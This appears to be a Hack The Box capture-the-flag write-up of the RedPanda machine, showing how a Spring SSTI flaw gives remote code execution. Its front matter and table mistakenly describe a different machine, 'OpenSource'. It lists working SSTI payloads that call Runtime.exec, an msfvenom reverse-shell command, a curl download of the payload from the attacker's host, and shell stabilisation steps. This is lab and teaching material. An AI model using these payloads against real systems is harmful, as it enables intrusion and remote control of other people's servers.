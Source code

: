 ```yaml
---
title: HTB - RedPanda | SSTI case study
date: 2022-09-05
draft: true
description: RedPanda Hack The Box Writeup/Walkthrough
tags: ["HTB", "ctf", "writeup", "SSTI", "Java"]
categories: ["Hack the Box"]
summary: Opensource is an easy Linux machine from HTB. The initial enumeration is mostly done via Git and available web application source code. User foothold is gained via a LFI vulnerability, while privilege escalation consists of abusing Git's pre-commit hook.
---
```


RedPanda is an easy rated Linux machine that has an interesting path to user involving a Server Side Template Injection (SSTI) vulnerability.
It took me a while to figure out how to exploit the vulnerability, so I'm sharing here the steps I followed in order to obtain a low privileged reverse shell. 

The privilege escalation vector will not be part of this article as I found it to be a little contrived for my taste.


{{< badge >}}
New article!
{{< /badge >}}

![HTB_logo](/img/htb/redpanda/logo.png)

   Name | OpenSource
--------|------
    OS  | Linux
  Difficulty | Easy [20 points]


# Recon
Nmap shows the following open ports:
````
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; 
8080/tcp open  http-proxy
````

Visiting port 8080 we are presented with a web application providing a simple search functionality.

![HTB_redpanda_homepage](/img/htb/redpanda/homepage.png)

A quick "test" search shows that the input text gets reflected in the web page.

![HTB_redpanda_testsearch](/img/htb/redpanda/test_search.png)

While a search without text seems to trigger a default search for the input "Greg", giving us a hint about a probable injection vulnerability.

![HTB_redpanda_search](/img/htb/redpanda/empty_search.png)

SQL Injection was my fisrt choice but after several failed attempts I went lucky with **SSTI** (Server Side Template Injection).

### SSTI (Server Side Template Injection)
First of all, what is a template engine?

> A template engine enables you to use static template files in your application. At runtime, the template engine replaces variables in a template file with actual values, and transforms the template into an HTML file sent to the client. This approach makes it easier to design an HTML page.

> When you build a server-side application with a template engine, the template engine replaces the variables in a template file with actual values, and displays this value to the client. This makes it easier to quickly build our application.


A Template Injection vulnerability occurs when user input is embedded in a template in an unsafe manner and a malicious user is able to directly attack web server internals or obtain RCE. 

A very good resource on the topic is provided [here](https://portswigger.net/research/server-side-template-injection) by Port Swigger.

As the artcile suggests, first of all we have to identify the underlying technology. In our case, visiting the homepage source code, it is possible to discover that the application is built with **Spring**.

![HTB_redpanda_spring](/img/htb/redpanda/spring_boot.png)


Searching on google for "Spring Boot SSTI", there is (among many others) [this](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/) article explaining how to exploit the same vulnerabilty on *Thymeleaf*, another Java template engine.

Let's try with a simple SSTI payload and check how the web application responds.

We start with: `${{20*2}}`

![HTB_redpanda_blockedchar](/img/htb/redpanda/blocked_char.png)

The `$` character seems to be filtered. 

Trying with: `#{{20*2}}`, we do have a different response but the input is not being processed as we expect. 

![HTB_redpanda_ssti_#](/img/htb/redpanda/ssti_payload_1.png)

With`*{{20*2}}` we do have the response we are expecting.

![HTB_redpanda_ssti_*](/img/htb/redpanda/ssti_payload_2.png)

Now that we have identified the way to abuse the vulnerabiltity we have to understand how to obtain an RCE.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) has a nice list of SSTI vectors based on the webserver technology. 

In the Java section there is the following payload that can be useful to read `/etc/passwd`.

````
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}
````
We know that in our case the `$` character is blocked, so we need to replace that with `*`. Also we want to change the command to execute and try to ping our attacking machine:

````
*{T(java.lang.Runtime).getRuntime().exec('ping 10.10.16.44')}
````
Running `tcpdump` on our machine we can see the traffic coming from the target.

````
> sudo tcpdump -i tun0

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:02:40.109836 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [S], seq 3013405788, win 64240, options [mss 1460,sackOK,TS val 415009260 ecr 0,nop,wscale 7], length 0
21:02:40.154621 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [S.], seq 1530025971, ack 3013405789, win 65160, options [mss 1335,sackOK,TS val 485292072 ecr 415009260,nop,wscale 7], length 0
21:02:40.154667 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 1, win 502, options [nop,nop,TS val 415009305 ecr 485292072], length 0
21:02:40.155400 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [P.], seq 1:575, ack 1, win 502, options [nop,nop,TS val 415009306 ecr 485292072], length 574: HTTP: POST /search HTTP/1.1
21:02:40.242601 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [.], ack 575, win 505, options [nop,nop,TS val 485292161 ecr 415009306], length 0
21:02:40.326177 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [P.], seq 1:947, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 946: HTTP: HTTP/1.1 200 
21:02:40.326201 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 947, win 501, options [nop,nop,TS val 415009477 ecr 485292203], length 0
21:02:40.326254 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [P.], seq 947:952, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 5: HTTP
21:02:40.326258 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 952, win 501, options [nop,nop,TS val 415009477 ecr 485292203], length 0
21:02:40.326263 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [F.], seq 952, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 0
21:02:40.326270 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 1, length 64
21:02:40.326333 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64
21:02:40.329018 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [F.], seq 575, ack 953, win 501, options [nop,nop,TS val 415009480 ecr 485292203], length 0
21:02:40.456829 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [.], ack 576, win 505, options [nop,nop,TS val 485292375 ecr 415009480], length 0
21:02:41.288405 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 2, length 64
21:02:41.288432 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 2, length 64
21:02:42.289360 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 3, length 64
21:02:42.289373 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 3, length 64
21:02:43.290553 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 4, length 64
21:02:43.290566 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 4, length 64
21:02:44.293154 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 5, length 64
21:02:44.293182 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 5, length 64
````
This confirms that we have RCE!

At this point this will be the plan:
  1. create a msfvenom payload for the target machine
  2. upload the payload on the target
  3. start a listener on our machine
  4. start the reverse shell
  
To create the msfvenom payload:

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.44 LPORT=4444 -f elf > rev.elf
````
This will create a reverse shell on our machine named `rev.elf`.

To pass it over to the target machine we first start a Python server on our machine in the same directory where the payload resides. Then, to download it on target via SSTI, we launch:

````
*{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.16.44:8888/rev.elf -o rev.elf')}
````

Our Python server will log a successful request:
````
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.170 - - [05/Sep/2022 21:17:16] "GET /rev.elf HTTP/1.1" 200 -
````


We change the payload permissions:
````
*{T(java.lang.Runtime).getRuntime().exec('chmod 777 ./rev.elf')}
````

And finally we launch it, after having set up a `nc` listener on our machine:
````
*{T(java.lang.Runtime).getRuntime().exec('./rev.elf')}
````

And here is our user shell!

````
connect to [10.10.16.44] from (UNKNOWN) [10.10.11.170] 49434
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
whoami
woodenk
````

The shell can be stabilized as always:
````
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
CTRL+z to background the current shell
stty raw -echo; fg
````
